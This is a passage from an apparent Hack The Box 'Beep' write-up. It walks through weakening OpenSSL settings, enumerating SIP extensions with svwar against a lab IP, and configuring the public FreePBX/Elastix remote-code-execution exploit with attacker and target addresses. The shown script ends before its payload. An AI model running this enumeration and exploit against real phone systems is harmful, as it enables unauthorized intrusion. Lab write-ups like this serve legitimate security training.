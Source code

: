 I also used another method to get root from this exploit. It was almost exactly what I needed for an RCE. Almost like it was made for this box.

https://www.exploit-db.com/exploits/18650

Before we get started it is a good idea to edit your ssl config so it doesnt mess with your exploit.

Open this file ```/etc/ssl/openssl.cnf``` and edit the lines at the bottom 

MinProtocol = None
CipherString = None

Next we need an extension to change in the exploit and by running the following command we can find some open lines.

```
└──╼ [★]$ svwar -m INVITE -e100-9999 10.129.1.226WARNING:TakeASip:using an INVITE scan on an endpoint (i.e. SIP phone) may cause it to ring and wake up people in the middle of the night
WARNING:TakeASip:extension '243' probably exists but the response is unexpected
WARNING:TakeASip:extension '368' probably exists but the response is unexpected
WARNING:TakeASip:extension '971' probably exists but the response is unexpected
^CWARNING:root:caught your control^c - quiting
+-----------+----------------+
| Extension | Authentication |
+===========+================+
| 233       | reqauth        |
+-----------+----------------+
| 243       | weird          |
+-----------+----------------+
| 368       | weird          |
+-----------+----------------+
| 971       | weird          |
+-----------+----------------+
```
After editing the exploit with our rhost,lhost,lport and extension we can set up our listner and launch it.

Note: Notice how this exploit has #commented about how to get root, which just so happens to be how what this box needs. Havent seen an HTB specific exploit on exploit.db until now.

posting link again for exploit: https://www.exploit-db.com/exploits/18650

```python
#!/usr/bin/python
############################################################
# Exploit Title: FreePBX / Elastix pre-authenticated remote code execution exploit
# Google Dork: oy vey
# Date: March 23rd, 2012
# Author: muts, SSL update by Emporeo
# Version: FreePBX 2.10.0/ 2.9.0, Elastix 2.2.0, possibly others.
# Tested on: multiple
# CVE : notyet
# Blog post : http://www.offensive-security.com/vulndev/freepbx-exploit-phone-home/ 
# Archive Url : http://www.offensive-security.com/0day/freepbx_callmenum.py.txt
############################################################
# Discovered by Martin Tschirsich
# http://seclists.org/fulldisclosure/2012/Mar/234
# http://www.exploit-db.com/exploits/18649
############################################################
import urllib
import ssl
rhost="10.129.1.226"
lhost="10.10.14.75"
lport=1234
extension="233"

ssl._create_default_https_context = ssl._create_unverified_context
```
